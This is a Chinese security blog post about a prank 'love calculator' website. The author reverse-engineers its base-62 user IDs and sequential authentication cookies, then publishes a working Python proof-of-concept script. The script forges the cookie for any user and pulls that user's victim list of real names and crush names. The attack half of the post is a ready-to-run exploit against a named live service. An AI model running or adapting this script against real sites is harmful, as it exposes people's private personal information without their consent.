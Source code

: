 ```yaml
---
title: "資安小故事 - 餅乾猜猜樂"
date: 2018-11-21 00:00:00
tags:
- security
---
```


事情是這樣的，我在別人的挨居的自介上面看到一個連結，就好奇的點了進去

{% img /images/lovemeter-1.png 500 'lovemeter 首頁' %}

裡面看起來就是那種心裡測驗的網站，愛情計算器，幫你測你和喜歡的人配不配

聰明如我<del>資安小天才</del>，當然是隨便亂打個 abcd 就送出看看這是在耍什麼花樣

{% img /images/lovemeter-2.png 500 'lovemeter 計算結果頁面' %}

果然是愚弄人的網站，如果你誠實的填上你的名字和你喜歡的人的名字，就被分享給你連結的人看光光啦

在你生氣的同時，這個網站就很好心的讓你註冊一下好發洩怨氣

那我當然也順手按了一下註冊（免錢的隨手按一下），這時候就可以把連結分享給別人囉

這個可以看中了我的圈套的受害者名單的頁面，我只要把 cookie 清掉，就會被帶到前面第一個愛情計算器（陷阱）頁面，代表他有用 cookie 去驗證你是誰

* 有對的 cookie 他會給我受害者名單
* 不對的 cookie 他會讓我掉進陷阱

那在看看他的 cookie 之前眼尖的我，就發現他的 url 有些地方像像的，而且後面的 userid 很短

* `https://cn.lovemeter.me/user/5S1X`
* `https://cn.lovemeter.me/user/5S1Y`
* `https://cn.lovemeter.me/user/5S1Z`

多註冊幾次會發現，他的 userid 怎麼感覺好像是每次 counter++

再多嘗試幾次，就會發現 userid 的字元只會是 `0-9a-zA-Z` 的字元組成

然後重點是他的 cookie 是個數字，而且完完全全是 counter++ 的樣子

* `user_quiz_1399337=1399337`
* `user_quiz_1399337=1399338`
* `user_quiz_1399337=1399339`

那這個 userid 跟這個 cookie 的 id 的對照是怎麼樣的呢

猜一猜就能發現他其實是把 `0-9a-zA-Z` 當成 `0-61` 的 62 進位（很合理吧）

```python
convert('5S1X') =  5 * (62 ** 3) +
                  54 * (62 ** 2) +
                   1 * (62 ** 1) +
                  59 * (62 ** 0) = 1399337
```

那我們只要把他的 userid 轉回數字，並新增個 cookie，就能成功看到別人的受害者名單囉

## Proof Of Concept ( POC )

```python source code
#!/usr/bin/env python3
import re
import sys
import json
import string
from prettytable import PrettyTable
import requests

if len(sys.argv) < 2:
    print('usage: ./lovemeter.py (url)')
    exit(0)

value = string.digits + string.ascii_letters

def uid2num(uid):
    num = 0
    for ch in uid:
        v = value.index(ch)
        num = num * len(value) + v
    return num

def num2uid(num):
    uid = ''
    while num > 0:
        v = num % len(value)
        uid += value[v]
        num //= len(value)
    return uid[::-1]

url = sys.argv[1]
r = re.search('https:\/\/(\w+)\.lovemeter.me\/\w+\/(\w+)', url)
prefix = r.group(1)
uid = r.group(2)
num = uid2num(uid)

r = requests.get(f'https://{prefix}.lovemeter.me/other-user-stats/{uid}', headers = {
    'cookie': f'user_quiz_{num}={num}',
    'user-agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 11_0 like Mac OS X) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/11.0 Mobile/15A5370a Safari/604.1'
})

data = json.loads(r.text)['data']
t = PrettyTable(['名字', '喜歡的人'])
for item in data:
    item = json.loads(item)
    t.add_row([item['userFullName'], item['crushFullName']])
print(t)
```

```bash usage
python lovemeter.py https://cn.lovemeter.me/user/1234
```
